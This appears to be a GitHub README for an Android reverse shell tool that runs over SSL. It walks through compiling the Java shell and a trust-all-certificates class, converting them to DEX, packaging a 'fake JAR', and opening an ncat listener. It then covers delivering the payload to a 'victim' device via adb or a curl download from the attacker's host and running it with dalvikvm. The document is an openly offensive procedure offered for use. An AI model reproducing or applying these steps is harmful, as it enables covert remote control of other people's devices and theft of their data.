 ## Android Reverse Java Shell using SSL Encryption

## On Attacker machine - Linux for example -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 Shell.java TrustAllCertificates.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 Shell.class TrustAllCertificates.class`

#### Create fake JAR file
`zip reverse_ssl.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim Android device:
`adb push reverse_ssl.jar /sdcard` (if Android Debug Tools is enabled)

You can just use dalvikvm bash script from Termux:

`curl http://attackingmachine:9999/reverse_ssl.jar -o /sdcard/reverse_ssl.jar`<br/>
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse_ssl.jar Shell`

(pay attention to final "Shell" this must be same class name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Credits

Inspired from: https://gist.github.com/FrankSpierings/e330e3aea3152f816c202b883887dd60
